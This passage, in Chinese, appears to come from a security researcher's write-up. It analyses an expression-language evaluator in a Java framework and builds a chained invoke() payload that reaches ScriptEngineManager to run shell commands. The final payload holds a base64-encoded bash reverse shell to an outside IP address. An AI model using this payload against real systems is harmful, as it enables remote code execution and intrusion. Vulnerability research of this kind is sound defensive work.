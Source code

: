 然后回到之前的 evalExpression 方法, 跟进 `this.getManagerContext().getEvaluator().evaluate(expression, expectedClass, this, fm)`

![image-20230201110139037](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302011101147.png)

![image-20230201110152520](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302011101632.png)

创建了一个 ELParser, 但是实际测试下来好像并不是 EL 表达式的语句 (?)

![image-20230201110250122](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302011102231.png)

这块跟进了一会发现它支持如下几种数据类型, 位于 `qqq.framework.thirdparty.el` 包

![image-20230201110459077](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302011104107.png)

FunctionInvocation 会根据 functionName 来调用之前的 Eval Invoke 这些处理类

![image-20230201110621826](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302011106922.png)

之后把 `script` 变量改成 `${invoke("1","2","3")}` 然后重新调试

跟进到 execute 方法的时候发现 `o` 的类型会变成 String (传入纯数字的话就是 Long), 所以 `o.getClass()` 的结果只会是 `String.class`

![image-20230201111143809](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302011111922.png)

而且根据上面 `qqq.framework.thirdparty.el` 里面的几种数据类型得知不能够直接传入 Runtime, ProcessBuilder 或 Class 对象, 所以只能换成一种类似 ssti 的思路

先根据 `"123".getClass().getClass()` 拿到 `java.lang.Class` 对象, 然后调用 forName 方法加载得到相关类的 Class, 再进行利用

Runtime 类的 getRuntime 方法是个静态方法, 无法调用, 而且它的构造方法修饰符是 private, 也无法调用

ProcessBuilder 类的构造方法传入的是可变参数 `String... command`, 在这里调用的时候会爆 `java.lang.NoSuchMethodException`

最后找了一圈发现了 `javax.script.ScriptEngineManager`

常规调用方式

```java
(new ScriptEngineManager()).getEngineByExtension("js").eval("java.lang.Runtime.getRuntime().exec(\"calc\")");
```

改成 invoke 的形式

```
${invoke(invoke(invoke(invoke(invoke(invoke("123", "getClass"), "getClass"), "forName", "javax.script.ScriptEngineManager"), "newInstance"), "getEngineByExtension", "js"), "eval", "java.lang.Runtime.getRuntime().exec(\"calc\")")}
```

![image-20230201113610846](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302011136950.png)

最终 payload

```
${invoke(invoke(invoke(invoke(invoke(invoke("123", "getClass"), "getClass"), "forName", "javax.script.ScriptEngineManager"), "newInstance"), "getEngineByExtension", "js"), "eval", "java.lang.Runtime.getRuntime().exec(\"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjExNy43MC4yMzAvNjU0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}\")")}
```
